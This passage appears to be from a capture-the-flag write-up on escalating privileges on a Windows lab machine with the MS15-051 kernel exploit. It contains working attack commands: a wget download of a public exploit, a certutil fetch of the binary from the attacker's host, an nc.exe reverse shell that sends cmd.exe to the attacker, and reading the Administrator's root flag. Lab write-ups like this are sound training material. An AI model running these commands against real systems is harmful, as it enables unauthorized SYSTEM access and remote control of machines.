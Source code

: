 ### MS15-051

- The given exploit by sherlock requires metasploit. If we search around a little we find [this article](https://vk9-sec.com/windows-exploit-ms15-051-cve-2015-1701-privilege-escalation/) that gives an exploit without metasploit
- `wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS15-051/MS15-051-KB3045171.zip` get the exploit in our kali
- `unzip MS15-051-KB3045171.zip` we unzip it
- `certutil.exe -urlcache -f http://10.10.14.3/ms15-051x64.exe exploit64.exe` we get the exploit (we need x64 see systeminfo above)
- We launch it it needs a command we will use cmd `exploit64.exe cmd` and get an autority system shell.  
We could also have used a command like `nc.exe IP-OF-KALI PORT -e cmd.exe` and we would get a reverse shell as system (do not forget to set up a listener if you do this)  
![whoami](../.res/2022-09-10-16-20-21.png)  
- We just need to grab the root flag `type C:\Users\Administrator\Desktop\root.txt`  
![root flag](../.res/2022-09-10-16-21-31.png)  
